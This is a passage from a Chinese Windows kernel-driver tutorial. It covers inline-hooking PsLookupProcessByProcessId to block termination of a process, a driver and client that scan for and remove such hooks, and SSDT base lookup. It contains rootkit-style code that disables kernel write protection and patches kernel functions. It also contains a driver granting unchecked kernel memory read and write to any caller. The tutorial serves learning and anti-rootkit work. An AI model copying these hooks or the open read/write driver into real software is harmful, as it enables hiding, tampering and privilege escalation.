// 动态获取内存地址
PVOID GetProcessAddress(PCWSTR FunctionName)
{
    UNICODE_STRING UniCodeFunctionName;
    RtlInitUnicodeString(&UniCodeFunctionName, FunctionName);
    return MmGetSystemRoutineAddress(&UniCodeFunctionName);
}

/*
    InlineHookAPI 挂钩地址

    参数1：待HOOK函数地址
    参数2：代理函数地址
    参数3：接收原始函数地址的指针
    参数4：接收补丁长度的指针
    返回：原来头N字节的数据
*/
PVOID KernelHook(IN PVOID ApiAddress, IN PVOID Proxy_ApiAddress, OUT PVOID *Original_ApiAddress, OUT ULONG *PatchSize)
{
    KIRQL irql;
    UINT64 tmpv;
    PVOID head_n_byte, ori_func;

    // 保存跳转指令 JMP QWORD PTR [本条指令结束后的地址]
    UCHAR jmp_code[] = "\xFF\x25\x00\x00\x00\x00\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF";

    // 保存原始指令
    UCHAR jmp_code_orifunc[] = "\xFF\x25\x00\x00\x00\x00\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF";

    // 获取函数地址处指令长度
    *PatchSize = GetFullPatchSize((PUCHAR)ApiAddress);
    
    // 分配空间
    head_n_byte = ExAllocatePoolWithTag(NonPagedPool, *PatchSize, "LyShark");

    irql = WPOFFx64();

    // 跳转地址拷贝到原函数上
    RtlCopyMemory(head_n_byte, ApiAddress, *PatchSize);
    WPONx64(irql);

    // 构建跳转

    // 1.原始机器码+跳转机器码
    ori_func = ExAllocatePoolWithTag(NonPagedPool, *PatchSize + 14, "LyShark");
    RtlFillMemory(ori_func, *PatchSize + 14, 0x90);

    // 2.跳转到没被打补丁的那个字节
    tmpv = (ULONG64)ApiAddress + *PatchSize;
    RtlCopyMemory(jmp_code_orifunc + 6, &tmpv, 8);
    RtlCopyMemory((PUCHAR)ori_func, head_n_byte, *PatchSize);
    RtlCopyMemory((PUCHAR)ori_func + *PatchSize, jmp_code_orifunc, 14);
    *Original_ApiAddress = ori_func;
    
    // 3.得到代理地址
    tmpv = (UINT64)Proxy_ApiAddress;
    RtlCopyMemory(jmp_code + 6, &tmpv, 8);

    //4.打补丁
    irql = WPOFFx64();
    RtlFillMemory(ApiAddress, *PatchSize, 0x90);
    RtlCopyMemory(ApiAddress, jmp_code, 14);
    WPONx64(irql);

    return head_n_byte;
}

/*
    InlineHookAPI 恢复挂钩地址

    参数1：被HOOK函数地址
    参数2：原始数据
    参数3：补丁长度
*/
VOID KernelUnHook(IN PVOID ApiAddress, IN PVOID OriCode, IN ULONG PatchSize)
{
    KIRQL irql;
    irql = WPOFFx64();
    RtlCopyMemory(ApiAddress, OriCode, PatchSize);
    WPONx64(irql);
}

// 实现我们自己的代理函数
NTSTATUS MyPsLookupProcessByProcessId(HANDLE ProcessId, PEPROCESS *Process)
{
    NTSTATUS st;
    st = ((PSLOOKUPPROCESSBYPROCESSID)original_address)(ProcessId, Process);
    if (NT_SUCCESS(st))
    {
        // 判断是否是需要保护的进程
        if (*Process == (PEPROCESS)protect_eprocess)
        {
            *Process = 0;
            DbgPrint("[lyshark] 拦截结束进程 \n");
            st = STATUS_ACCESS_DENIED;
        }
    }
    return st;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint("驱动已卸载 \n");

    // 恢复Hook
    KernelUnHook(GetProcessAddress(L"PsLookupProcessByProcessId"), head_n_byte, patch_size);
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark.com \n");

    // 初始化反汇编引擎
    lde_init();

    // 设置需要保护进程EProcess
    /*
    lyshark.com: kd> !process 0 0 lyshark.exe
        PROCESS ffff9a0a44ec4080
            SessionId: 1  Cid: 05b8    Peb: 0034d000  ParentCid: 13f0
            DirBase: 12a7d2002  ObjectTable: ffffd60bc036f080  HandleCount: 159.
            Image: lyshark.exe
    */
    protect_eprocess = 0xffff9a0a44ec4080;

    // Hook挂钩函数
    head_n_byte = KernelHook(GetProcessAddress(L"PsLookupProcessByProcessId"), (PVOID)MyPsLookupProcessByProcessId, &original_address, &patch_size);

    DbgPrint("[lyshark] 挂钩保护完成 --> 修改字节: %d | 原函数地址: 0x%p \n", patch_size, original_address);

    for (size_t i = 0; i < patch_size; i++)
    {
        DbgPrint("[byte] = %x", head_n_byte[i]);
    }

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

运行这段驱动程序，会输出挂钩保护的具体地址信息；



使用`WinDBG`观察，会发现挂钩后原函数已经被替换掉了，而被替换的地址就是我们自己的`MyPsLookupProcessByProcessId`函数。



当你尝试使用任务管理器结束掉`lyshark.exe`进程时，则会提示拒绝访问。



### 5.10 摘除InlineHook内核钩子

在笔者上一篇文章`《内核层InlineHook挂钩函数》`中介绍了通过替换`函数`头部代码的方式实现`Hook`挂钩，对于ARK工具来说实现扫描与摘除`InlineHook`钩子也是最基本的功能，此类功能的实现一般可在应用层进行，而驱动层只需要保留一个`读写字节`的函数即可，将复杂的流程放在应用层实现是一个非常明智的选择，与`《内核实现进程反汇编》`中所使用的读写驱动基本一致，本篇文章中的驱动只保留两个功能，控制信号`IOCTL_GET_CUR_CODE`用于读取函数的前16个字节的内存，信号`IOCTL_SET_ORI_CODE`则用于设置前16个字节的内存。

之所以是前16个字节是因为一般的`内联Hook`只需要使用两条指令就可实现劫持，如下是通用ARK工具扫描到的被挂钩函数的样子。



首先将内核驱动程序代码放到如下，内核驱动程序没有任何特别的，仅仅只是一个通用驱动模板，在其基础上使用CR3读写，如果不理解CR3读写的原理您可以去看`《内核CR3切换读写内存》`这一篇中的详细介绍。
```c
#include <ntifs.h>
#include <intrin.h>
#include <windef.h>

#define DEVICE_NAME         L"\\Device\\WinDDK"
#define LINK_NAME           L"\\DosDevices\\WinDDK"
#define LINK_GLOBAL_NAME    L"\\DosDevices\\Global\\WinDDK"

// 控制信号 IOCTL_GET_CUR_CODE 用于读 | IOCTL_SET_ORI_CODE 用于写
#define IOCTL_GET_CUR_CODE  CTL_CODE(FILE_DEVICE_UNKNOWN, 0x800, METHOD_BUFFERED, FILE_ANY_ACCESS)
#define IOCTL_SET_ORI_CODE  CTL_CODE(FILE_DEVICE_UNKNOWN, 0x801, METHOD_BUFFERED, FILE_ANY_ACCESS)

// 引用__readcr0等函数必须增加
#pragma intrinsic(_disable)
#pragma intrinsic(_enable)

// 定义读写结构体
typedef struct
{
    PVOID Address;
    ULONG64 Length;
    UCHAR data[256];
} KF_DATA, *PKF_DATA;

KIRQL g_irql;

// 关闭写保护
void WPOFFx64()
{
    ULONG64 cr0;
    g_irql = KeRaiseIrqlToDpcLevel();
    cr0 = __readcr0();
    cr0 &= 0xfffffffffffeffff;
    __writecr0(cr0);
    _disable();
}

// 开启写保护
void WPONx64()
{
    ULONG64 cr0;
    cr0 = __readcr0();
    cr0 |= 0x10000;
    _enable();
    __writecr0(cr0);
    KeLowerIrql(g_irql);
}

// 设备创建时触发
NTSTATUS DispatchCreate(PDEVICE_OBJECT pDevObj, PIRP pIrp)
{
    pIrp->IoStatus.Status = STATUS_SUCCESS;
    pIrp->IoStatus.Information = 0;

    DbgPrint("[LyShark] 设备已创建 \n");
    IoCompleteRequest(pIrp, IO_NO_INCREMENT);
    return STATUS_SUCCESS;
}

// 设备关闭时触发
NTSTATUS DispatchClose(PDEVICE_OBJECT pDevObj, PIRP pIrp)
{
    pIrp->IoStatus.Status = STATUS_SUCCESS;
    pIrp->IoStatus.Information = 0;

    DbgPrint("[LyShark] 设备已关闭 \n");
    IoCompleteRequest(pIrp, IO_NO_INCREMENT);
    return STATUS_SUCCESS;
}

// 主派遣函数
NTSTATUS DispatchIoctl(PDEVICE_OBJECT pDevObj, PIRP pIrp)
{
    NTSTATUS status = STATUS_INVALID_DEVICE_REQUEST;
    PIO_STACK_LOCATION pIrpStack;
    ULONG uIoControlCode;
    PVOID pIoBuffer;
    ULONG uInSize;
    ULONG uOutSize;

    // 获取当前设备栈
    pIrpStack = IoGetCurrentIrpStackLocation(pIrp);
    uIoControlCode = pIrpStack->Parameters.DeviceIoControl.IoControlCode;

    // 获取缓冲区
    pIoBuffer = pIrp->AssociatedIrp.SystemBuffer;

    // 获取缓冲区长度
    uInSize = pIrpStack->Parameters.DeviceIoControl.InputBufferLength;

    // 输出缓冲区长度
    uOutSize = pIrpStack->Parameters.DeviceIoControl.OutputBufferLength;

    switch (uIoControlCode)
    {
        // 读内存
    case IOCTL_GET_CUR_CODE:
    {
        KF_DATA dat = { 0 };

        // 将缓冲区格式化为KF_DATA结构体
        RtlCopyMemory(&dat, pIoBuffer, 16);
        WPOFFx64();

        // 将数据写回到缓冲区
        RtlCopyMemory(pIoBuffer, dat.Address, dat.Length);
        WPONx64();
        status = STATUS_SUCCESS;
        break;
    }
    // 写内存
    case IOCTL_SET_ORI_CODE:
    {
        KF_DATA dat = { 0 };

        // 将缓冲区格式化为KF_DATA结构体
        RtlCopyMemory(&dat, pIoBuffer, sizeof(KF_DATA));
        WPOFFx64();

        // 将数据写回到缓冲区
        RtlCopyMemory(dat.Address, dat.data, dat.Length);
        WPONx64();
        status = STATUS_SUCCESS;
        break;
    }
    }

    if (status == STATUS_SUCCESS)
        pIrp->IoStatus.Information = uOutSize;
    else
        pIrp->IoStatus.Information = 0;

    pIrp->IoStatus.Status = status;
    IoCompleteRequest(pIrp, IO_NO_INCREMENT);
    return status;
}

// 驱动卸载
VOID DriverUnload(PDRIVER_OBJECT pDriverObj)
{
    UNICODE_STRING strLink;

    // 删除符号链接卸载设备
    RtlInitUnicodeString(&strLink, LINK_NAME);
    IoDeleteSymbolicLink(&strLink);
    IoDeleteDevice(pDriverObj->DeviceObject);
}

// 驱动程序入口
NTSTATUS DriverEntry(PDRIVER_OBJECT pDriverObj, PUNICODE_STRING pRegistryString)
{
    NTSTATUS status = STATUS_SUCCESS;
    UNICODE_STRING ustrLinkName;
    UNICODE_STRING ustrDevName;
    PDEVICE_OBJECT pDevObj;

    // 初始化派遣函数
    pDriverObj->MajorFunction[IRP_MJ_CREATE] = DispatchCreate;
    pDriverObj->MajorFunction[IRP_MJ_CLOSE] = DispatchClose;
    pDriverObj->MajorFunction[IRP_MJ_DEVICE_CONTROL] = DispatchIoctl;

    DbgPrint("hello lysahrk.com \n");

    // 初始化设备名
    RtlInitUnicodeString(&ustrDevName, DEVICE_NAME);

    // 创建设备
    status = IoCreateDevice(pDriverObj, 0, &ustrDevName, FILE_DEVICE_UNKNOWN, 0, FALSE, &pDevObj);
    if (!NT_SUCCESS(status))
    {
        return status;
    }

    // 创建符号链接
    RtlInitUnicodeString(&ustrLinkName, LINK_NAME);
    status = IoCreateSymbolicLink(&ustrLinkName, &ustrDevName);
    if (!NT_SUCCESS(status))
    {
        IoDeleteDevice(pDevObj);
        return status;
    }

    pDriverObj->DriverUnload = DriverUnload;
    return STATUS_SUCCESS;
}
```
接着来分析下应用层做了什么，首先`GetKernelBase64`函数的作用，该函数内部通过`GetProcAddress()`函数动态寻找到`ZwQuerySystemInformation()`函数的内存地址（此函数未被到处所以只能动态找到），找到后调用`ZwQuerySystemInformation()`直接拿到系统中的所有模块信息，通过`pSystemModuleInformation->Module[0].Base`得到系统中第一个模块的基地址，此模块就是`ntoskrnl.exe`，该模块也是系统运行后的第一个启动的，此时我们即可拿到`KernelBase`也就是系统内存中的基地址。



此时通过`LoadLibraryExA()`函数动态加载，此时加载的是磁盘中的被Hook函数的所属模块，获得映射地址后将此地址装入`hKernel`变量内，此时我们拥有了内存中的`KernelBase`以及磁盘中加载的`hKernel`，接着调用`RepairRelocationTable()`让两者的重定位表保持一致。

此时当用户调用`GetSystemRoutineAddress()`则执行如下流程，想要获取当前内存地址，则需要使用当前内存中的`KernelBase`模块基址加上通过`GetProcAddress()`动态获取到的磁盘基址中的函数地址减去磁盘中的基地址，将内存中的`KernelBase`加上`磁盘中的相对偏移`就得到了当前内存中加载函数的实际地址。

 - address1 = KernelBase + (ULONG64)GetProcAddress(hKernel, "NtWriteFile") - (ULONG64)hKernel
 - address2 = KernelBase - (ULONG64)hKernel + (ULONG64)GetProcAddress(hKernel, "NtWriteFile")

调用`GetOriginalMachineCode()`则用于获取相对偏移地址，该地址的获取方式如下，用户传入一个`Address`当前地址，该地址减去`KernelBase`内存中的基址，然后再加上`hKernel`磁盘加载的基址来获取到相对偏移。

 - OffsetAddress = Address - KernelBase + hKernel

有了这两条信息那么功能也就实现了，通过`GetOriginalMachineCode()`得到指定内存地址处原始机器码，通过`GetCurrentMachineCode()`得到当前内存机器码，两者通过`memcmp()`函数比对即可知道是否被挂钩了，如果被挂钩则可以通过CR3切换将原始机器码覆盖到特定位置替换即可，这段程序的完整代码如下；
```c
#include <stdio.h>
#include <Windows.h>

#pragma comment(lib,"user32.lib")
#pragma comment(lib,"Advapi32.lib")

#ifndef NT_SUCCESS
#define NT_SUCCESS(Status) ((NTSTATUS)(Status) >= 0)
#endif

#define BYTE_ARRAY_LENGTH 16
#define SystemModuleInformation 11
#define STATUS_INFO_LENGTH_MISMATCH ((NTSTATUS)0xC0000004L)

typedef long(__stdcall *ZWQUERYSYSTEMINFORMATION)
(
    IN ULONG SystemInformationClass,
    IN PVOID SystemInformation,
    IN ULONG SystemInformationLength,
    IN PULONG ReturnLength OPTIONAL
);

typedef struct
{
    ULONG Unknow1;
    ULONG Unknow2;
    ULONG Unknow3;
    ULONG Unknow4;
    PVOID Base;
    ULONG Size;
    ULONG Flags;
    USHORT Index;
    USHORT NameLength;
    USHORT LoadCount;
    USHORT ModuleNameOffset;
    char ImageName[256];
} SYSTEM_MODULE_INFORMATION_ENTRY, *PSYSTEM_MODULE_INFORMATION_ENTRY;

typedef struct
{
    ULONG Count;
    SYSTEM_MODULE_INFORMATION_ENTRY Module[1];
} SYSTEM_MODULE_INFORMATION, *PSYSTEM_MODULE_INFORMATION;

typedef struct
{
    PVOID Address;
    ULONG64 Length;
    UCHAR data[256];
} KF_DATA, *PKF_DATA;

HANDLE hDriver = 0;
HMODULE hKernel = 0;
ULONG64 KernelBase = 0;
CHAR NtosFullName[260] = { 0 };

// 生成控制信号
DWORD CTL_CODE_GEN(DWORD lngFunction)
{
    return (FILE_DEVICE_UNKNOWN * 65536) | (FILE_ANY_ACCESS * 16384) | (lngFunction * 4) | METHOD_BUFFERED;
}

// 发送控制信号的函数
BOOL IoControl(HANDLE hDrvHandle, DWORD dwIoControlCode, PVOID lpInBuffer, DWORD nInBufferSize, PVOID lpOutBuffer, DWORD nOutBufferSize)
{
    DWORD lDrvRetSize;
    return DeviceIoControl(hDrvHandle, dwIoControlCode, lpInBuffer, nInBufferSize, lpOutBuffer, nOutBufferSize, &lDrvRetSize, 0);
}

// 动态获取ntdll.dll模块的基地址
ULONG64 GetKernelBase64(PCHAR NtosName)
{
    ZWQUERYSYSTEMINFORMATION ZwQuerySystemInformation;
    PSYSTEM_MODULE_INFORMATION pSystemModuleInformation;
    ULONG NeedSize, BufferSize = 0x5000;
    PVOID pBuffer = NULL;
    NTSTATUS Result;

    // 该函数只能通过动态方式得到地址
    ZwQuerySystemInformation = (ZWQUERYSYSTEMINFORMATION)GetProcAddress(GetModuleHandleA("ntdll.dll"), "ZwQuerySystemInformation");
    do
    {
        pBuffer = malloc(BufferSize);
        if (pBuffer == NULL) return 0;

        // 查询系统中的所有模块信息
        Result = ZwQuerySystemInformation(SystemModuleInformation, pBuffer, BufferSize, &NeedSize);
        if (Result == STATUS_INFO_LENGTH_MISMATCH)
        {
            free(pBuffer);
            BufferSize *= 2;
        }
        else if (!NT_SUCCESS(Result))
        {
            free(pBuffer);
            return 0;
        }
    } while (Result == STATUS_INFO_LENGTH_MISMATCH);

    // 取模块信息结构
    pSystemModuleInformation = (PSYSTEM_MODULE_INFORMATION)pBuffer;

    // 得到模块基地址
    ULONG64 ret = (ULONG64)(pSystemModuleInformation->Module[0].Base);

    // 拷贝模块名
    if (NtosName != NULL)
    {
        strcpy(NtosName, pSystemModuleInformation->Module[0].ImageName + pSystemModuleInformation->Module[0].ModuleNameOffset);
    }

    free(pBuffer);
    return ret;
}

// 判断并修复重定位表
BOOL RepairRelocationTable(ULONG64 HandleInFile, ULONG64 BaseInKernel)
{
    PIMAGE_DOS_HEADER       pDosHeader;
    PIMAGE_NT_HEADERS64     pNtHeader;
    PIMAGE_BASE_RELOCATION  pRelocTable;
    ULONG i, dwOldProtect;

    // 得到DOS头并判断是否符合DOS规范
    pDosHeader = (PIMAGE_DOS_HEADER)HandleInFile;
    if (pDosHeader->e_magic != IMAGE_DOS_SIGNATURE)
    {
        return FALSE;
    }

    // 得到Nt头
    pNtHeader = (PIMAGE_NT_HEADERS64)((ULONG64)HandleInFile + pDosHeader->e_lfanew);

    // 是否存在重定位表
    if (pNtHeader->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC].Size)
    {
        // 获取到重定位表基地址
        pRelocTable = (PIMAGE_BASE_RELOCATION)((ULONG64)HandleInFile + pNtHeader->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC].VirtualAddress);

        do
        {
            // 得到重定位号
            ULONG   numofReloc = (pRelocTable->SizeOfBlock - sizeof(IMAGE_BASE_RELOCATION)) / 2;
            SHORT   minioffset = 0;
            
            // 得到重定位数据
            PUSHORT pRelocData = (PUSHORT)((ULONG64)pRelocTable + sizeof(IMAGE_BASE_RELOCATION));

            // 循环或直接判断*pRelocData是否为0也可以作为结束标记
            for (i = 0; i<numofReloc; i++)
            {
                // 需要重定位的地址
                PULONG64 RelocAddress;

                // 重定位的高4位是重定位类型，判断重定位类型
                if (((*pRelocData) >> 12) == IMAGE_REL_BASED_DIR64)
                {
                    // 计算需要进行重定位的地址
                    // 重定位数据的低12位再加上本重定位块头的RVA即真正需要重定位的数据的RVA
                    minioffset = (*pRelocData) & 0xFFF; // 小偏移

                    // 模块基址+重定位基址+每个数据表示的小偏移量
                    RelocAddress = (PULONG64)(HandleInFile + pRelocTable->VirtualAddress + minioffset);

                    // 直接在RING3修改: 原始数据+基址-IMAGE_OPTINAL_HEADER中的基址
                    VirtualProtect((PVOID)RelocAddress, 4, PAGE_EXECUTE_READWRITE, &dwOldProtect);

                    // 因为是R3直接LOAD的所以要修改一下内存权限
                    *RelocAddress = *RelocAddress + BaseInKernel - pNtHeader->OptionalHeader.ImageBase;
                    VirtualProtect((PVOID)RelocAddress, 4, dwOldProtect, NULL);
                }
                // 下一个重定位数据
                pRelocData++;
            }
            // 下一个重定位块
            pRelocTable = (PIMAGE_BASE_RELOCATION)((ULONG64)pRelocTable + pRelocTable->SizeOfBlock);
        } while (pRelocTable->VirtualAddress);

        return TRUE;
    }
    return FALSE;
}

// 初始化
BOOL InitEngine(BOOL IsClear)
{
    if (IsClear == TRUE)
    {
        // 动态获取ntdll.dll模块的基地址
        KernelBase = GetKernelBase64(NtosFullName);
        printf("模块基址: %llx | 模块名: %s \n", KernelBase, NtosFullName);
        if (!KernelBase)
        {
            return FALSE;
        }
            
        // 动态加载模块到内存,并获取到模块句柄
        hKernel = LoadLibraryExA(NtosFullName, 0, DONT_RESOLVE_DLL_REFERENCES);

        if (!hKernel)
        {
            return FALSE;
        }

        // 判断并修复重定位表
        if (!RepairRelocationTable((ULONG64)hKernel, KernelBase))
        {
            return FALSE;
        }
        return TRUE;
    }
    else
    {
        FreeLibrary(hKernel);
        return TRUE;
    }
}

// 获取原始函数机器码
VOID GetOriginalMachineCode(ULONG64 Address, PUCHAR ba, SIZE_T Length)
{
    ULONG64 OffsetAddress = Address - KernelBase + (ULONG64)hKernel;
    RtlCopyMemory(ba, (PVOID)OffsetAddress, Length);
}

// 获取传入函数的内存地址
ULONG64 GetSystemRoutineAddress(PCHAR FuncName)
{
    return KernelBase + (ULONG64)GetProcAddress(hKernel, FuncName) - (ULONG64)hKernel;
}

// 获取当前函数机器码
VOID GetCurrentMachineCode(ULONG64 Address, PUCHAR ba, SIZE_T Length)
{
    ULONG64 dat[2] = { 0 };
    dat[0] = Address;
    dat[1] = Length;
    IoControl(hDriver, CTL_CODE_GEN(0x800), dat, 16, ba, Length);
}

// 清除特定位置的机器码
VOID ClearInlineHook(ULONG64 Address, PUCHAR ba, SIZE_T Length)
{
    KF_DATA dat = { 0 };
    dat.Address = (PVOID)Address;
    dat.Length = Length;

    // 直接调用写出控制码
    RtlCopyMemory(dat.data, ba, Length);
    IoControl(hDriver, CTL_CODE_GEN(0x801), &dat, sizeof(KF_DATA), 0, 0);
}

// 打印数据
VOID PrintBytes(PCHAR DescriptionString, PUCHAR ba, UINT Length)
{
    printf("%s", DescriptionString);
    for (UINT i = 0; i<Length; i++)
    {
        printf("%02x ", ba[i]);
    }
    printf("\n");
}

int main(int argc, char *argv[])
{
    UCHAR OriginalMachineCode[BYTE_ARRAY_LENGTH];
    UCHAR CurrentMachineCode[BYTE_ARRAY_LENGTH];
    ULONG64 Address = 0;

    hDriver = CreateFileA("\\\\.\\WinDDK", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);

    // 初始化
    if (!InitEngine(TRUE) || hDriver == 0)
    {
        return 0;
    }

    // 需要获取的函数列表
    CHAR *FunctionList[128] = { "PsLookupProcessByProcessId", "NtCommitEnlistment", "NtCommitComplete", "NtCommitTransaction" };

    for (size_t i = 0; i < 4; i++)
    {
        // 清空缓存
        RtlZeroMemory(OriginalMachineCode, 0, BYTE_ARRAY_LENGTH);
        RtlZeroMemory(CurrentMachineCode, 0, BYTE_ARRAY_LENGTH);

        // 获取到当前函数地址
        Address = GetSystemRoutineAddress(FunctionList[i]);

        printf("\n函数地址: %p | 函数名: %s\n", Address, FunctionList[i]);
        if (Address == 0 || Address < KernelBase)
        {
            return 0;
        }

        GetOriginalMachineCode(Address, OriginalMachineCode, BYTE_ARRAY_LENGTH);
        PrintBytes("原始机器码: ", OriginalMachineCode, BYTE_ARRAY_LENGTH);

        GetCurrentMachineCode(Address, CurrentMachineCode, BYTE_ARRAY_LENGTH);
        PrintBytes("当前机器码: ", CurrentMachineCode, BYTE_ARRAY_LENGTH);

        /*
        // 不相同则询问是否恢复
        if (memcmp(OriginalMachineCode, CurrentMachineCode, BYTE_ARRAY_LENGTH))
        {
            printf("按下[ENTER]恢复钩子");
            getchar();
            ClearInlineHook(Address, OriginalMachineCode, BYTE_ARRAY_LENGTH);
        }
        */
    }

    // 注销
    InitEngine(FALSE);
    system("pause");

    return 0;
}
```
首先编译驱动程序`WinDDK.sys`并通过`KmdManager`将驱动程序拉起来，运行客户端`lyshark.exe`程序会输出当前`FunctionList`列表中，指定的4个函数的挂钩情况。



## 第六篇：内核枚举技术

本章内容为驱动开发的高级技术，主要围绕内核的枚举功能展开。包括如何枚举不同类型的定时器，句柄表以及微过滤驱动等内核对象，同时介绍了如何枚举LoadImage映像回调、Registry注册表回调以及进程与线程ObCall回掉函数。通过本章内容的学习，读者将能够深入理解内核对象的结构和特性，并且掌握高效枚举内核对象的技巧和方法，从而在实际的驱动开发中提高开发效率和代码质量。

具体而言，本章首先介绍了IoTimer定时器和DpcTimer定时器的概念以及用法，并且详细讲解了如何枚举这两种定时器。然后，本章讨论了PspCidTable句柄表的结构和作用，并且介绍了如何枚举PspCidTable句柄表。接着，本章介绍了Minifilter微过滤驱动的概念以及原理，并且详细讲解了如何枚举Minifilter微过滤驱动。此外，本章还讨论了LoadImage映像回调和Registry注册表回调的概念以及作用，并且介绍了如何枚举这两种回调。最后，本章讨论了进程与线程ObCall回掉函数的概念和用法，并且详细讲解了如何枚举进程与线程ObCall回掉函数。

通过本章的学习，读者将了解到内核对象的结构和特性，掌握高效枚举内核对象的技巧和方法，同时还将深入理解内核的工作原理和实现机制。

### 6.1 内核枚举SSDT表基址

三年前笔者写了一篇如何在`Windows 7`系统下枚举内核`SSDT`表的文章`《内核读取SSDT表基址》`三年过去了以前的技术也该做一个更新了，微软的`Windows 10`系统已经覆盖了大多数个人PC终端，以前的方法也该进行迭代更新了，或许在网上你能够找到类似的文章，但我可以百分百肯定都不能用，今天`LyShark`将带大家一起分析`Win10 x64`最新系统`SSDT`表的枚举实现。

看一款闭源ARK工具的枚举效果:



直接步入正题，首先`SSDT`表中文为系统服务描述符表，SSDT表的`作用`是把`应用`层与`内核`层`联系起来`起到`桥梁`的作用，枚举`SSDT表`也是`反内核`工具最基本的功能，通常在`64位`系统中要想找到`SSDT`表，需要先找到`KeServiceDescriptorTable`这个函数，由于该函数没有被导出，所以只能动态的查找它的地址，庆幸的是我们可以通过查找`msr(c0000082)`这个特殊的寄存器来替代查找`KeServiceDescriptorTable`这一步，在新版系统中查找SSDT可以归纳为如下这几个步骤。

- rdmsr c0000082 -> KiSystemCall64Shadow -> KiSystemServiceUser -> SSDT

首先第一步通过`rdmsr C0000082` MSR寄存器得到`KiSystemCall64Shadow`的函数地址，计算`KiSystemCall64Shadow`与`KiSystemServiceUser`偏移量，如下图所示。

 - 得到相对偏移`6ed53180(KiSystemCall64Shadow) - 6ebd2a82(KiSystemServiceUser) = 1806FE`
 - 也就是说 `6ed53180(rdmsr) - 1806FE = KiSystemServiceUser`



如上当我们找到了`KiSystemServiceUser`的地址以后，在`KiSystemServiceUser`向下搜索可找到`KiSystemServiceRepeat`里面就是我们要找的`SSDT`表基址。

其中`fffff8036ef8c880`则是`SSDT表`的基地址，紧随其后的`fffff8036ef74a80`则是`SSSDT表`的基地址。



那么如果将这个过程通过代码的方式来实现，我们还需要使用`《内核枚举IoTimer定时器》`中所使用的特征码定位技术，如下我们查找这段特征。
```c
#include <ntifs.h>
#pragma intrinsic(__readmsr)

ULONGLONG ssdt_address = 0;

// 获取 KeServiceDescriptorTable 首地址
ULONGLONG GetLySharkCOMKeServiceDescriptorTable()
{
    // 设置起始位置
    PUCHAR StartSearchAddress = (PUCHAR)__readmsr(0xC0000082) - 0x1806FE;

    // 设置结束位置
    PUCHAR EndSearchAddress = StartSearchAddress + 0x100000;
    DbgPrint("[LyShark Search] 扫描起始地址: %p --> 扫描结束地址: %p \n", StartSearchAddress, EndSearchAddress);

    PUCHAR ByteCode = NULL;

    UCHAR OpCodeA = 0, OpCodeB = 0, OpCodeC = 0;
    ULONGLONG addr = 0;
    ULONG templong = 0;

    for (ByteCode = StartSearchAddress; ByteCode < EndSearchAddress; ByteCode++)
    {
        // 使用MmIsAddressValid()函数检查地址是否有页面错误
        if (MmIsAddressValid(ByteCode) && MmIsAddressValid(ByteCode + 1) && MmIsAddressValid(ByteCode + 2))
        {
            OpCodeA = *ByteCode;
            OpCodeB = *(ByteCode + 1);
            OpCodeC = *(ByteCode + 2);

            // 对比特征值 寻找 nt!KeServiceDescriptorTable 函数地址
            /*
            nt!KiSystemServiceRepeat:
            fffff803`6ebd2b94 4c8d15e59c3b00  lea     r10,[nt!KeServiceDescriptorTable (fffff803`6ef8c880)]
            fffff803`6ebd2b9b 4c8d1dde1e3a00  lea     r11,[nt!KeServiceDescriptorTableShadow (fffff803`6ef74a80)]
            fffff803`6ebd2ba2 f7437880000000  test    dword ptr [rbx+78h],80h
            fffff803`6ebd2ba9 7413            je      nt!KiSystemServiceRepeat+0x2a (fffff803`6ebd2bbe)  Branch
            */
            if (OpCodeA == 0x4c && OpCodeB == 0x8d && OpCodeC == 0x15)
            {
                // 获取高位地址fffff802
                memcpy(&templong, ByteCode + 3, 4);

                // 与低位64da4880地址相加得到完整地址
                addr = (ULONGLONG)templong + (ULONGLONG)ByteCode + 7;
                return addr;
            }
        }
    }
    return  0;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint(("驱动程序卸载成功! \n"));
}

NTSTATUS DriverEntry(PDRIVER_OBJECT DriverObject, PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark.com");

    ssdt_address = GetLySharkCOMKeServiceDescriptorTable();
    DbgPrint("[LyShark] SSDT = %p \n", ssdt_address);

    DriverObject->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

如上代码中所提及的步骤我想不需要再做解释了，这段代码运行后即可输出SSDT表的基址。



如上通过调用`GetLySharkCOMKeServiceDescriptorTable()`得到`SSDT`地址以后我们就需要对该地址进行解密操作。

得到`ServiceTableBase`的地址后，就能得到每个服务函数的地址。但这个表存放的并不是`SSDT`函数的完整地址，而是其相对于`ServiceTableBase[Index]>>4`的数据，每个数据占四个字节，所以计算指定`Index`函数完整地址的公式是；

 - 在x86平台上: FuncAddress = KeServiceDescriptorTable + 4 * Index
 - 在x64平台上：FuncAddress = [KeServiceDescriptorTable+4*Index]>>4 + KeServiceDescriptorTable

如下汇编代码就是一段解密代码，代码中`rcx`寄存器传入SSDT的下标，而`rdx`寄存器则是传入SSDT表基址。
```c
  48:8BC1                  | mov rax,rcx                             |  rcx=index
  4C:8D12                  | lea r10,qword ptr ds:[rdx]              |  rdx=ssdt
  8BF8                     | mov edi,eax                             |
  C1EF 07                  | shr edi,7                               |
  83E7 20                  | and edi,20                              |
  4E:8B1417                | mov r10,qword ptr ds:[rdi+r10]          |
  4D:631C82                | movsxd r11,dword ptr ds:[r10+rax*4]     |
  49:8BC3                  | mov rax,r11                             |
  49:C1FB 04               | sar r11,4                               |
  4D:03D3                  | add r10,r11                             |
  49:8BC2                  | mov rax,r10                             |
  C3                       | ret                                     |
```
有了解密公式以后代码的编写就变得很容易，如下是读取SSDT的完整代码。
```c
#include <ntifs.h>
#pragma intrinsic(__readmsr)

typedef struct _SYSTEM_SERVICE_TABLE
{
    PVOID     ServiceTableBase;
    PVOID     ServiceCounterTableBase;
    ULONGLONG   NumberOfServices;
    PVOID     ParamTableBase;
} SYSTEM_SERVICE_TABLE, *PSYSTEM_SERVICE_TABLE;

ULONGLONG ssdt_base_aadress;
